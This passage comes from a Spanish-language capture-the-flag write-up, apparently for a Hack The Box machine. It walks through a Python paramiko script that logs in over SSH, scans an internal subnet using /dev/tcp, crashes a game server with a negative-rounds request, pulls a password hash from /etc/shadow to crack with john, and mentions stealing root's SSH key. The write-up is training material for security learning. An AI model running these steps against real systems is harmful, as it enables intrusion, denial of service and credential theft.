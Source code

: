 ```python
	sleep(10)

	client.close()
```

Mientras en la función **Game_Tester** accede vía SSH para luego como el usuario **game-tester** realizar la caída del servidor.


```python
Game_Tester2(User_drew, Pass_drew)
```

```python
def Game_Tester2(username,password):
	client = paramiko.SSHClient()
	client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

	client.connect('10.10.11.110', username=username, password=password)

	stdin, stdout, stderr = client.exec_command('ssh -o StrictHostKeyChecking=no game-tester@$(for x in $(seq 2 254); do ((ping -c 1 172.19.0.$x 1>/dev/null) && echo '' > /dev/tcp/172.19.0.$x/22 && echo "172.19.0.$x" &); done 2>/dev/null) "curl http://127.0.0.1:9999/autoplay -d \'rounds=-1\'"')

```

Con el contenedor ya reiniciado, en la función **Get_Hash_Adm** obtiene el hash del usuario **game-adm** accediendo al **/etc/shadow/** y guardándola en un archivo, para luego romperla con la herramienta **john**.

```python
def Get_Hash_Adm(username,password):
	client = paramiko.SSHClient()
	client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

	client.connect('10.10.11.110', username=username, password=password)

	stdin, stdout, stderr = client.exec_command('ssh -o StrictHostKeyChecking=no game-tester@$(for x in $(seq 2 254); do ((ping -c 1 172.19.0.$x 1>/dev/null) && echo '' > /dev/tcp/172.19.0.$x/22 && echo "172.19.0.$x" &); done 2>/dev/null) "cat /etc/shadow | grep \'game-adm\' | cut -d\':\' -f2"')

	Hash_Adm = stdout.read().decode('utf-8')

	with open('hash_adm', 'w') as f:
            f.write(Hash_Adm)

	client.close()
```

```python
os.system("john -w=/usr/share/wordlists/rockyou.txt hash_adm > pass 2>/dev/null; cat pass | grep \"(?)\" | cut -d' ' -f1 | sponge pass")
```

Finalmente, en la función **GetID_RSA** obtiene la clave privada el usuario **root**, pero para evitar problemas se codificó la obtención del id_rsa en base64 para luego ejecutarla.
